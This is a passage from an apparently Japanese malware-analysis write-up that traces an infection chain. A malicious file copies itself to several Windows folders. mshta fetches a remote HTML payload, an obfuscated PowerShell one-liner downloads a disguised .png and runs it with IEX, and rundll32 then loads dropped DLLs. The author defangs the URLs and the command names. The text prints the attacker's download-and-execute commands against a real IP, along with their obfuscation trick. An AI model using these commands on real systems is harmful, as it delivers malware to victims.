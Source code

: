 これらのファイルは多くの場合、以下のフォルダに作成される。  
- ドライブ直下(c:¥)
- ユーザホーム(c:¥users¥ユーザ名)
- programdata(c:¥programdata)
- appdata(c:¥users¥ユーザ名¥appdata¥roaming)

現状見る限り、最初のファイルはtemp(appdata¥local¥temp)などは利用されていなかった。  

このファイルは、自己複製で最終的なファイルを作成し、起動する。  

### パターン2  

mshtaで、以下のようなコマンドが実行される。  


mshtaはHTMLアプリケーションを実行するものであり、vbオブジェクトをファイルレスで実行できるなどの特徴がある。  
Note: 2020年末に大きく流行ったIcedIDもこのmshtaをin.comという名前でコピーして悪用していた。  

このコマンドラインは、本来は簡単な検知回避がなされているが、明らかにhttpという文字が見て取られ、Web経由で悪性コードを取得して実行する流れになっている。  

```
ms[..]hta hxxp://91[.]240[.]118[.]168/vvv/ppp/fe.html
```
Note: URLをマスク。mshtaの間にもマスクのための文字列を挿入  

このコマンド後、以下のpowershellコードが起動。
その後、
```
power[..]shell[.]exe -noexit $c1='({FdrggvdRf}{FdrggvdRf}Ne{FdrggvdRf}{FdrggvdRf}w{FdrggvdRf}-Obj{FdrggvdRf}ec{FdrggvdRf}{FdrggvdRf}t N{Fdrggvd〜省略〜(''ht{FdrggvdRf}tp{FdrggvdRf}://{IPアドレス}/vvv/ppp/fe.png'')'.replace('{FdrggvdRf}', '');$JI=($c1,$c4,$c3 -Join '');I`E`X $JI|I`E`X
```
Note: URLをマスク。powershellの間にもマスクのための文字列を挿入  

このコマンドが実行されると、以下にアクセスする。これはpngとなっているが、実態はpowershellコードであり、取得してInvoke-Expression(IEX)で実行する。  
hxxp://91[.]240[.]118[.]168/vvv/ppp/fe[.]png
Note: URLをマスク。このURLはすでに閉じており、取得はできなかった

このpowershellから以下のrundll32が起動する。  

```
 C:\Windows\SysWow64\rundll32.exe C:\ProgramData\QWER.dll,BBDD
```

このrundll32から自己複製と再帰呼び出しを経由して、以下のrundll32が起動する。  

```
 C:\Windows\system32\rundll32.exe "C:\Users\{ユーザ名}\AppData\Local\Bcijlewvkqocxvo\bzoqvbfgbwa.hzf",DllRegisterServer
```

以下にAnyRunでの実行結果がある。  
Note: AnyRunはサンドボックスであるが、操作を自由に行える点が大きく異なる。

https://app.any.run/tasks/59071771-ef3e-45a1-88f0-bfb2a7bb5502/

### パターン3  

マクロマルウェアから以下２つのプロセスを起動する。  
